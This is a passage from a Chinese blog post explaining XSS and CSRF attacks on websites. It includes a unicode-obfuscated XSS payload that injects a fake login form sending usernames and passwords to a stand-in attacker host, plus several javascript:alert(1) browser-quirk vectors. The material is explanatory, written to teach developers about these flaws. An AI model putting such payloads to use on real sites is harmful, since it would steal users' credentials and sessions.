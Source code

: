 注入的代码还有可能变种为如下这种更为隐蔽的方式(unicode码)：



trustedSite.example.com/welcome.php?username=<script+type=”text/javascript”>
document.write(‘\u003C\u0064\u0069\u0076\u0020\u0069\u0064\u003D\u0022\u0073
\u0074\u0065\u0061\u006C\u0050\u0061\u0073\u0073\u0077\u006F\u0072\u0064
\u0022\u003E\u0050\u006C\u0065\u0061\u0073\u0065\u0020\u004C\u006F\u0067
\u0069\u006E\u003A\u003C\u0066\u006F\u0072\u006D\u0020\u006E\u0061\u006D
\u0065\u003D\u0022\u0069\u006E\u0070\u0075\u0074\u0022\u0020\u0061\u0063
\u0074\u0069\u006F\u006E\u003D\u0022\u0068\u0074\u0074\u0070\u003A\u002F
\u002F\u0061\u0074\u0074\u0061\u0063\u006B\u002E\u0065\u0078\u0061\u006D
\u0070\u006C\u0065\u002E\u0063\u006F\u006D\u002F\u0073\u0074\u0065\u0061
\u006C\u0050\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u002E\u0070\u0068
\u0070\u0022\u0020\u006D\u0065\u0074\u0068\u006F\u0064\u003D\u0022\u0070
\u006F\u0073\u0074\u0022\u003E\u0055\u0073\u0065\u0072\u006E\u0061\u006D
\u0065\u003A\u0020\u003C\u0069\u006E\u0070\u0075\u0074\u0020\u0074\u0079
\u0070\u0065\u003D\u0022\u0074\u0065\u0078\u0074\u0022\u0020\u006E\u0061
\u006D\u0065\u003D\u0022\u0075\u0073\u0065\u0072\u006E\u0061\u006D\u0065
\u0022\u0020\u002F\u003E\u003C\u0062\u0072\u002F\u003E\u0050\u0061\u0073
\u0073\u0077\u006F\u0072\u0064\u003A\u0020\u003C\u0069\u006E\u0070\u0075
\u0074\u0020\u0074\u0079\u0070\u0065\u003D\u0022\u0070\u0061\u0073\u0073
\u0077\u006F\u0072\u0064\u0022\u0020\u006E\u0061\u006D\u0065\u003D\u0022
\u0070\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u0022\u0020\u002F\u003E
\u003C\u0069\u006E\u0070\u0075\u0074\u0020\u0074\u0079\u0070\u0065\u003D
\u0022\u0073\u0075\u0062\u006D\u0069\u0074\u0022\u0020\u0076\u0061\u006C
\u0075\u0065\u003D\u0022\u004C\u006F\u0067\u0069\u006E\u0022\u0020\u002F
\u003E\u003C\u002F\u0066\u006F\u0072\u006D\u003E\u003C\u002F\u0064\u0069\u0076\u003E\u000D’);</script>

**XSS的攻击主要是通过一段JS程序得用用户已登录的cookie去模拟用户的操作（甚至偷用户的cookie）**。这个方式可以让用户在自己不知情的情况下操作了自己不期望的操作。如果是网站的管理员中招，还有可能导致后台管理权限被盗。关于其中的一些细节可以参看《[新浪微博的XSS攻击](https://coolshell.cn/articles/4914.html "新浪微博的XSS攻击")》一文。XSS攻击是程序员有一糊涂就很容易犯的错误，你还可以看看网上的《[腾讯微博的XSS攻击](http://www.cnblogs.com/kingthy/archive/2011/08/20/2147355.html)》。


XSS攻击在论坛的用户签档里面（使用img标签）也发生过很多次，包括像一些使用bcode的网站，很有可能会被注入一些可以被浏览器用来执行的代码。包括CSS都有可能被注入javascript代码。


不要以为XSS攻击是我们的程序没有写好，有时候，我们会引用别人站点上的js文件，比如：放一个天气预报的小Widget的js，或是一个流量监控，或是一段广告的js文件。你不知道这些东西是不是有问题，如果有恶意的话，这就是你自己主动注入攻击代码了。


**另外，XSS攻击有一部分是和浏览器有关的。**比如，如下的一些例子，你可能从来都没有想过吧？（**更多的例子可以参看酷壳很早以前的这篇文章《[浏览器HTML安全列表](https://coolshell.cn/articles/2416.html)》**）



```
<table background=”javascript:alert(1)”>

<meta charset=”mac-farsi”>¼script¾alert(1)¼/script¾

<img src=”javascript:alert(1)”>
```

XSS攻击通常会引发CSRF攻击。CSRF攻击主要是通过在A站上设置B站点上的链接，通过使用用户在B站点上的登录且还没有过期的cookie，从而使得用户的B站点被攻击。（这得益于现在的多Tab页的浏览器，大家都会同时打开并登录很多的网站，而这些不同网站的页面间的cookie又是共享的）

